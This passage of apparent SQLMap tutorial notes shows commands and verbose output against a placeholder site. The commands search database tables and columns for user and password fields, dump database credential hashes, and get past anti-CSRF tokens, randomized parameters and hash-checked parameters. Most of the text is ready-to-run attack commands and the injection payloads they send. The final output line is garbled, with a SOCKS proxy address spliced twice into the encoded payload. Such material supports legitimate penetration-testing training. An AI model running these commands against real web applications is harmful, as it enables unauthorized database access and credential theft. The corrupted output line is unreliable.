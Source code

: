 When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:

### Searching for Tables
```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user
```


### Searching for Columns
```bash
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### DB Users Password Enumeration and Cracking
Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task:

```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

# Bypassing Web Application Protections

## Anti-CSRF Token Bypass

```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass
```bash
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

## Calculated Parameter Bypass

```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```
